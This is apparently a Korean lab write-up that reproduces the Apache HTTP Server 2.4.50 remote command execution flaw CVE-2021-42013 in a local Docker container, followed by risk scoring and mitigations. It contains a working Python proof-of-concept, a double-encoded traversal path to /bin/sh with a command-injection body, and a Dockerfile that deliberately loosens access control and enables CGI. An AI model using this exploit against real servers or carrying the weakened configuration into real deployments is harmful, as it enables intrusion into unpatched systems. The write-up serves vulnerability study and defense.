



# CVE-2021-42013 Apache HTTP Server RCE 취약점 분석

## 1. 취약점 개요

CVE-2021-42013은 Apache HTTP Server 2.4.50 버전에서 발생한 취약점이다.

이 취약점을 이해하려면 먼저 CVE-2021-41773과의 관계를 함께 볼 필요가 있다. CVE-2021-41773은 Apache HTTP Server 2.4.49에서 발생한 Path Traversal 취약점으로, 공격자가 특수하게 인코딩된 경로를 포함한 HTTP 요청을 보내 웹 루트(DocumentRoot) 바깥의 파일에 접근할 수 있는 문제였다.

Apache는 이를 수정하기 위해 2.4.50 버전을 배포했지만, 해당 수정이 완전하지 않아 우회가 가능했다. 그 결과 Apache HTTP Server 2.4.50에서도 이중 인코딩된 경로를 이용하면 다시 Path Traversal이 가능했고, CGI 실행이 가능한 설정에서는 원격 명령 실행(Remote Code Execution)으로 이어질 수 있었다. 이 문제가 CVE-2021-42013이다.

본 실습에서는 Docker 환경에서 Apache HTTP Server 2.4.50을 실행하고, CGI 실행이 가능한 조건을 구성한 뒤 조작된 HTTP 요청을 통해 컨테이너 내부에서 `id` 명령이 실행되는 것을 확인하였다.

> 주의: 본 실습은 로컬 Docker 컨테이너 환경에서만 수행하였다. 실행된 명령은 호스트 PC가 아니라 Apache 컨테이너 내부에서 실행된 것이다.

---

## 2. 영향받는 버전 및 취약 조건

### 영향받는 버전

- Apache HTTP Server 2.4.50

### 취약 조건

본 취약점은 다음 조건에서 재현된다.

1. Apache HTTP Server 2.4.50 버전을 사용한다.
2. 공격자가 HTTP 요청을 전송할 수 있다.
3. 서버 설정상 대상 경로에 대한 접근이 허용되어 있다.
4. CGI 실행이 가능한 설정이 활성화되어 있다.
5. 이중 인코딩된 경로를 이용해 상위 디렉터리 접근이 가능하다.

본 실습에서는 CVE 재현을 위해 Apache 2.4.50 이미지를 기반으로 환경을 구성하였다. 또한 RCE 재현을 위해 CGI 실행 모듈을 활성화하고, 실습용 Directory 접근 제어를 의도적으로 완화하였다. 이 설정은 취약점 재현을 위한 것이며 실제 운영 환경에서는 사용하면 안 된다.

---

## 3. 취약점 원리

CVE-2021-42013의 핵심은 Apache 2.4.50에서 경로 정규화(path normalization)가 충분히 이루어지지 않았다는 점이다. Apache 2.4.49에서 문제가 되었던 Path Traversal을 수정했지만, 이중 인코딩된 경로에 대해서는 여전히 우회가 가능했다.

공격자는 일반적인 `../` 문자열 대신 이중 인코딩된 경로를 사용하여 서버의 경로 검증을 우회할 수 있다. 예를 들어 다음과 같은 형태의 경로를 사용할 수 있다.

```text
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh
```

위 경로는 서버에서 해석되는 과정에서 상위 디렉터리 이동을 의미하는 `..` 경로로 처리될 수 있다.  
이때 CGI 실행이 가능한 설정이라면 공격자는 `/bin/sh`를 CGI처럼 호출하고, 요청 본문에 전달한 명령을 실행시킬 수 있다.

본 실습에서는 다음 명령을 요청 본문으로 전달하였다.

```text
echo Content-Type: text/plain; echo; id
```

`Content-Type` 헤더를 출력한 뒤 `id` 명령을 실행하도록 구성하였다. PoC 성공 시 응답 본문에 Apache 프로세스 권한 정보가 출력된다.

---

## 4. 환경 구성

본 실습 환경은 Docker Compose를 이용해 구성하였다.

### 디렉터리 구조

실습에 필요한 파일은 모두 `Apache/CVE-2021-42013` 디렉터리 안에 두었다.

```text
Apache/CVE-2021-42013/
├── Dockerfile
├── docker-compose.yml
├── poc.py
└── images/
    ├── 1_compose_up.png
    ├── 2_service_check.png
    └── 3_poc_success.png
```

`Dockerfile`은 취약한 Apache 2.4.50 환경을 구성하는 데 사용하였다.  
`docker-compose.yml`은 컨테이너 실행 방식과 포트 매핑을 정의한다.  
`poc.py`는 명령 실행 여부를 확인하기 위한 PoC 코드이며, `images` 디렉터리에는 실행 과정과 결과 화면을 저장하였다.

### Dockerfile

```dockerfile
FROM httpd:2.4.50

# CVE-2021-42013 재현용 Apache 2.4.50 환경
# Directory 접근 제어를 완화하고 CGI 실행 모듈을 활성화한다.
RUN cp /usr/local/apache2/conf/httpd.conf /usr/local/apache2/conf/httpd.conf.bak && \
    sed -i 's/#ServerName www.example.com:80/ServerName localhost/' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/Require all denied/Require all granted/g' /usr/local/apache2/conf/httpd.conf && \
    sed -i 's/#LoadModule cgid_module modules\/mod_cgid.so/LoadModule cgid_module modules\/mod_cgid.so/' /usr/local/apache2/conf/httpd.conf && \
    printf '<h1>CVE-2021-42013 Apache HTTP Server 2.4.50</h1>\n' > /usr/local/apache2/htdocs/index.html
```

### docker-compose.yml

```yaml
services:
  apache:
    build: .
    container_name: cve-2021-42013-apache
    ports:
      - "8081:80"
```

`docker-compose.yml`에서는 현재 디렉터리의 Dockerfile을 기반으로 Apache 2.4.50 환경을 빌드하고, 호스트의 `8081` 포트를 컨테이너 내부의 `80` 포트와 연결한다.

---

## 5. 실행 방법

다음 명령어를 사용해 취약 환경을 실행한다.

```bash
docker compose up -d --build
```

컨테이너 실행 상태를 확인한다.

```bash
docker compose ps
```

정상적으로 실행되면 `cve-2021-42013-apache` 컨테이너가 `Up` 상태로 표시된다.



---

## 6. 서비스 동작 확인

Apache 서버가 정상적으로 실행되었는지 확인한다.

```bash
curl http://localhost:8081
```

Windows PowerShell 환경에서는 다음과 같이 실행할 수 있다.

```powershell
curl.exe http://localhost:8081
```

정상 실행 시 다음과 같은 응답이 출력된다.

```html
<h1>CVE-2021-42013 Apache HTTP Server 2.4.50</h1>
```



---

## 7. PoC 코드

본 실습에서는 `poc.py`를 사용하여 취약점을 재현하였다.

```python
import http.client
import sys

if len(sys.argv) != 2:
    print("Usage: python poc.py <host:port>")
    print("Example: python poc.py localhost:8081")
    sys.exit(1)

target = sys.argv[1]

payload_path = "/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh"
payload_body = "echo Content-Type: text/plain; echo; id"

conn = http.client.HTTPConnection(target, timeout=10)
conn.request(
    "POST",
    payload_path,
    body=payload_body,
    headers={"Content-Type": "application/x-www-form-urlencoded"}
)

res = conn.getresponse()
body = res.read().decode(errors="ignore")

print(f"[+] Target: http://{target}")
print(f"[+] Payload path: {payload_path}")
print(f"[+] Payload body: {payload_body}")
print(f"[+] HTTP Status: {res.status}")
print("=" * 60)
print(body)
print("=" * 60)

if "uid=" in body:
    print("[+] PoC Success: command execution was confirmed.")
else:
    print("[-] PoC Failed: command execution was not confirmed.")
```

이 PoC는 조작된 CGI 경로로 POST 요청을 전송한다. 요청 본문에는 `id` 명령을 포함하였고, 응답 본문에 `uid=` 문자열이 포함되어 있는지 확인하여 명령 실행 여부를 판단한다.

---

## 8. 재현 절차

PoC를 실행한다.

```bash
python poc.py localhost:8081
```

PoC는 다음 경로로 HTTP POST 요청을 전송한다.

```text
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh
```

요청 본문은 다음과 같다.

```text
echo Content-Type: text/plain; echo; id
```

요청이 성공하면 Apache 컨테이너 내부에서 `id` 명령이 실행되고, 응답 본문에 실행 결과가 출력된다.

---

## 9. 실행 결과

PoC 실행 결과, HTTP 응답 코드 `200`이 반환되었고 응답 본문에서 다음과 같은 명령 실행 결과를 확인하였다.

```text
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

`poc.py`에서는 응답 본문에 `uid=` 문자열이 포함되어 있는지 확인하도록 작성하였다. 실행 결과 다음과 같이 명령 실행이 확인되었다.

```text
[+] PoC Success: command execution was confirmed.
```



이를 통해 Apache HTTP Server 2.4.50 환경에서 조작된 CGI 경로 요청을 통해 컨테이너 내부 명령 실행이 가능함을 확인하였다.

---

## 10. 위험도 평가

본 취약점의 위험도는 `9.0 / 10.0`으로 평가하였다.

CVE-2021-42013은 별도의 인증 없이 원격 HTTP 요청만으로 악용될 수 있으며, CGI 실행이 가능한 설정에서는 서버 측 명령 실행으로 이어질 수 있다. 본 실습에서는 조작된 요청을 통해 Apache 컨테이너 내부에서 `id` 명령이 실행되는 것을 확인하였다.

명령 실행이 가능하다는 것은 공격자가 서버 내부 정보 확인, 파일 접근, 추가 명령 실행 등으로 공격을 확장할 수 있음을 의미한다. 따라서 파일 노출 중심의 Path Traversal 취약점보다 영향도가 크며, 기밀성·무결성·가용성에 모두 영향을 줄 수 있다.

다만 본 실습은 로컬 Docker 컨테이너 내부로 영향 범위를 제한하였다. 또한 실제 운영 환경에서의 영향은 CGI 활성화 여부, Apache 권한, 파일 시스템 권한, 네트워크 노출 범위 등에 따라 달라질 수 있다. 이러한 점을 고려하여 본 실습 환경 기준 Risk Score를 `9.0 / 10.0`으로 평가하였다.

---

## 11. 대응 방안

가장 우선적인 대응은 Apache HTTP Server 2.4.50 버전 사용을 중단하고, 취약점이 수정된 버전으로 업그레이드하는 것이다. CVE-2021-42013은 CVE-2021-41773에 대한 불완전한 패치 이후 발견된 취약점이므로, 2.4.49 및 2.4.50과 같은 취약 버전을 운영 환경에서 사용하지 않아야 한다.

또한 CGI 기능이 불필요하다면 비활성화해야 한다. CGI는 서버에서 외부 요청을 기반으로 프로그램을 실행할 수 있는 기능이기 때문에, 잘못된 설정과 결합될 경우 명령 실행 취약점으로 이어질 수 있다.

웹 서버 설정에서는 기본적으로 모든 디렉터리 접근을 차단하고, 필요한 경로만 명시적으로 허용하는 방식이 안전하다. 불필요한 Alias, ScriptAlias, Directory 설정을 점검하고, 웹 루트 외부 경로에 접근할 수 없도록 설정해야 한다.

운영 환경에서는 웹 서버 로그에서 `.%2e`, `%2e%2e`, `%%32%65`와 같은 인코딩된 Path Traversal 시도 패턴을 모니터링해야 한다. 컨테이너 환경에서는 취약한 이미지 태그를 그대로 사용하지 않도록 주의하고, 이미지 스캔을 통해 알려진 취약 버전이 포함되어 있는지 주기적으로 확인해야 한다.

---

## 12. 정리

본 실습에서는 Apache HTTP Server 2.4.50에서 발생한 CVE-2021-42013 취약점을 Docker 환경에서 재현하였다.

`docker compose up -d --build` 명령으로 취약 환경을 실행하고, PoC 요청을 통해 Apache 컨테이너 내부에서 `id` 명령이 실행되는 것을 확인하였다.

이를 통해 불완전한 경로 정규화 처리와 CGI 실행 설정이 결합될 경우 원격 명령 실행으로 이어질 수 있음을 확인하였다. 실제 운영 환경에서는 취약 버전 사용을 중단하고, CGI 기능과 디렉터리 접근 제어 설정을 점검해야 한다.

---

## 13. 참고자료

- CVE Record: https://www.cve.org/CVERecord?id=CVE-2021-42013
- NVD: https://nvd.nist.gov/vuln/detail/CVE-2021-42013
- Apache HTTP Server Vulnerabilities: https://httpd.apache.org/security/vulnerabilities_24.html
- Docker Hub httpd Image: https://hub.docker.com/_/httpd